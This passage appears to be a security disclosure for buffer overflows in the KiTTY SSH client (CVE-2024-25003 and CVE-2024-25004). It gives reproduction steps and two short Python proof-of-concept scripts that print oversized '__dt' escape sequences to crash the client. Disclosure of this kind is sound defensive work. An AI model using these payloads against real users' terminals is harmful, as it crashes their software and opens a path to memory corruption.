 KiTTY’s `__dt` function crashed (at line 2601) because adjacent memory was overwritten. 

To reproduce the vulnerability, follow these steps:

1. Start KiTTY and start an SSH session.
2. Save the proof of concept (PoC) on the connected SSH session.
3. Execute the PoC(s) using Python: `python3 developer_CVE-2024-25003.py` or `python3 developer_CVE-2024-25004`.

```python
#!/usr/bin/python

#-------------------------------------------------------------------------------------#
# Crash: KiTTY ≤ 0.76.1.13 Buffer Overflow Vulnerability in KiTTY Start               #
#        Duplicated Session Hostname Variable (CVE-2024-25003)                        #
# OS: Microsoft Windows 11/10/8/7/XP                                                  #
# Author: DEFCESCO (Austin A. DeFrancesco)                                            #
# Software:                                                                           #
# https://github.com/cyd01/KiTTY/releases/download/v0.76.1.13/kitty-bin-0.76.1.13.zip #
#-------------------------------------------------------------------------------------#

import sys
import os

sequence = b'A' * 1309 

escape_sequence = b'\033]0;__dt:' + sequence + b'\007'
stdout = os.fdopen(sys.stdout.fileno(), 'wb') 
stdout.write(escape_sequence)
stdout.flush()
```

```python
#!/usr/bin/python

#-------------------------------------------------------------------------------------#
# Crash: KiTTY ≤ 0.76.1.13 Buffer Overflow Vulnerability in KiTTY Start               #
#        Duplicated Session Username Variable (CVE-2024-25004)                        #
# OS: Microsoft Windows 11/10/8/7/XP                                                  #
# Author: DEFCESCO (Austin A. DeFrancesco)                                            #
# Software:                                                                           #
# https://github.com/cyd01/KiTTY/releases/download/v0.76.1.13/kitty-bin-0.76.1.13.zip #
#-------------------------------------------------------------------------------------#

import sys
import os

sequence = b'A' * 1309 

escape_sequence = b'\033]0;__dt:localhost:' + sequence + b'\007'
stdout = os.fdopen(sys.stdout.fileno(), 'wb') 
stdout.write(escape_sequence)
stdout.flush()
```
